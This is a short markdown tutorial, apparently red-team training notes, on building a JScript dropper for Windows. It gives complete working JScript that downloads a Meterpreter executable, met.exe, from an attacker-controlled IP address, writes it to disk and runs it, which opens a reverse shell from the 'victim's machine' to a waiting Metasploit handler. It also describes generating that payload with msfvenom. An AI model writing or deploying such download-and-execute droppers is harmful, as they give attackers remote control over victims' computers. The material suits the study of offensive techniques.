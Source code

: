 ## Creating Basic Dropper Using Jscript

First, we'll use msfvenom to generate a 64-bit Meterpreter reverse HTTPS executable named met.exe and save it to our Kali web root. 

We'll also set up a Metasploit multi/handler to catch the session.
```
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

The complete Jscript code to download and execute our Meterpreter shell
```
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
After saving this code as a .js file, all we need to do is double-click it to get a 64-bit shell from the victim's machine to our awaiting multi/handler listener.

## JScript Shellcode Runner
![alt text](image.png)